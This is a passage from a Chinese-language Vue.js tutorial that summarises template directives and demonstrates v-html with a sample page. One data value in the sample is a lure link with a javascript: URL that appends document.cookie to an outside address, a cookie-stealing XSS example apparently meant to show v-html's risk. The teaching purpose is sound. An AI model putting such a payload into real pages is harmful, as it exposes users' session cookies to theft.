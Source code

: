 ![](https://img-blog.csdnimg.cn/img_convert/739ed5a4c0c853f138776edb8273dcb1.png)

**总结：**

-   之前学过的指令：
    
    -   `v-bind`：单向绑定解析表达式，可简写为`:`
    -   `v-model`：双向数据绑定
    -   `v-for`：遍历数组 / 对象 / 字符串
    -   `v-on`：绑定事件监听，可简写为`@`
    -   `v-if`：条件渲染（动态控制节点是否存存在）
    -   `v-else`：条件渲染（动态控制节点是否存存在）
    -   `v-show`：条件渲染 (动态控制节点是否展示)
-   `v-text`指令：
    
    1.  作用：向其所在的节点中渲染文本内容
        
    2.  与插值语法的区别：`v-text`会替换掉节点中的内容，`{{xx}}`则不会。
        

#### 1.16.2. v-html指令

```
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8" />
<title>v-html指令</title>
<script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
<div>Hello，{{name}}</div>
<div v-html="str"></div>
<div v-html="str2"></div>
</div>
</body>

<script type="text/javascript">
Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

new Vue({
el:'#root',
data:{
name:'JOJO',
str:'<h3>你好啊！</h3>',
str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
}
})
</script>
</html>
```
